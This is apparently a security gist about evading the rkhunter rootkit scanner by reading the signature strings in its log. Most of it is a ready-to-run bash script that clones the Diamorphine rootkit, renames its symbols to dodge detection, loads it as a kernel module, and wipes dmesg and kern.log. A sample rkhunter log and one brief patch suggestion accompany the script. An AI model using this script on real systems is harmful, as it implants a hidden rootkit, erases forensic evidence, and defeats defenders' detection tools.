 # Bypass rkhunter

##
#
https://gist.github.com/MatheuZSecurity/16ef0219db8f85f49f945a25d5eb42d7
#
##

## How does this "vuln/bypass/misconfig" work?

We managed to take advantage of rkhunter's own logs to do a bypass, it shows the signatures, the strings it looks for, and saves all this in the log file "/var/log/rkhunter.log", so you just have read permissions on the file "/var/log/rkhunter.log" and it will know exactly all the strings, signatures, everything it looks for in directories, files, etc, in order to be able to detect if there is any rootkit/malware in your machine.

And with that we can take advantage of that, to be able to modify our malware/rootkit and successfully bypass rkhunter, because we know exactly what kind of signatures, strings, etc. it looks for.

This is a very common technique for bypassing signature-based security protections.

A possible correction or patch would be not to show all the signatures, directories and strings that it is looking for, but rather just alerting whether or not there is any malware/rootkit on the machine where rkhunter is running and saving this both in a log file and print on screen.

This is affected in rkhunter versions 1.4.6 and 1.4.4.

## PoC Video

[Youtube PoC Video](https://www.youtube.com/watch?v=etHt1TNAgs8)

## Example shell script to bypass

```
#!/bin/bash

if [[ $(id -u) -ne 0 ]]; then
    echo "[ERROR] You must run this script as root" >&2
    exit 1
fi

command -v insmod >/dev/null 2>&1 || { echo >&2 "[ERROR] insmod command not found. Please install it."; exit 1; }
command -v gcc >/dev/null 2>&1 || { echo >&2 "[ERROR] gcc command not found. Please install it."; exit 1; }

dir() {
	mkdir -p  /var/tmp/.cache
}

get_rootkit(){
	git clone https://github.com/m0nad/Diamorphine /var/tmp/.cache
}

modify_rk(){
	mv /var/tmp/.cache/diamorphine.c /var/tmp/.cache/rk.c
	mv /var/tmp/.cache/diamorphine.h /var/tmp/.cache/rk.h
	sed -i 's/diamorphine_secret/demonized/g' /var/tmp/.cache/rk.h
	sed -i 's/diamorphine/demonizedmod/g' /var/tmp/.cache/rk.h
	sed -i 's/63/62/g' /var/tmp/.cache/rk.h
	sed -i 's/diamorphine.h/rk.h/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine_init/rk_init/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine_cleanup/rk_cleanup/g' /var/tmp/.cache/rk.c
	sed -i 's/diamorphine.o/rk.o/g' /var/tmp/.cache/Makefile
	sed -i 's/module_hide/module_h1dd3/g' /var/tmp/.cache/rk.c
	sed -i 's/module_hidden/module_h1dd3n/g' /var/tmp/.cache/rk.c
	sed -i 's/is_invisible/e_invisible/g' /var/tmp/.cache/rk.c
	sed -i 's/hacked_getdents/hack_getdents/g' /var/tmp/.cache/rk.c
	sed -i 's/hacked_kill/h4ck_kill/g' /var/tmp/.cache/rk.c
}

make_rk(){
	make -C /var/tmp/.cache/
}

load_rk(){
	insmod /var/tmp/.cache/rk.ko
}

clean_files(){
	make clean -C /var/tmp/.cache/
	rm -rf /var/tmp/.cache
}

remove_logs(){
	dmesg -C
	echo "" > /var/log/kern.log
}

clear

dir && get_rootkit && modify_rk && make_rk && load_rk && clean_files && remove_logs /

clear

scs="[*] Success! Rootkit has been implanted. [*]"

for i in $(seq 1 ${#scs}); do
        echo -ne "${scs:i-1:1}"
        sleep 0.05
done

echo -ne "\n"

clear
```

After running the script, use: " kill -62 0 && lsmod|grep rk " To make our module reappear, and even with the module reappeared again, rkhunter will not be able to detect it


Now in the logs rkhunter looks for the following diamorphine rootkit strings:
```
[16:02:59]
[16:02:59] Checking for Diamorphine LKM...
[16:03:00]   Checking for kernel symbol 'diamorphine'        [ Not found ]
[16:03:00]   Checking for kernel symbol 'module_hide'        [ Not found ]
[16:03:00]   Checking for kernel symbol 'module_hidden'      [ Not found ]
[16:03:00]   Checking for kernel symbol 'is_invisible'       [ Not found ]
[16:03:00]   Checking for kernel symbol 'hacked_getdents'    [ Not found ]
[16:03:01]   Checking for kernel symbol 'hacked_kill'        [ Not found ]
[16:03:01] Diamorphine LKM                                   [ Not found ]
[16:03:01]
```


We managed to bypass rkhunter because it shows the signatures, strings, etc. And with that we managed to take advantage of it to be able to modify our code, thus bypassing rkhunter thanks to him because of his logs.


## Summary

Well, in summary, this type of "vulnerability/misconfig/bypass" is only possible because rkhunter saves the logs in "/var/log/rkhunter.log", so far so good, however, it shows the strings, directories, signatures, etc., is what makes it possible to bypass.

Thinking about a real scenario, an attacker can download rkhunter on his own machine, being able to view the logs and know everything that rkhunter looks for to detect a malware/rootkit, and through this, with the attacker knowing where rkhunter can "detect" " the rootkit, the attacker will be able to modify the strings, exact functions of your rootkit/malware to use it in a real environment."

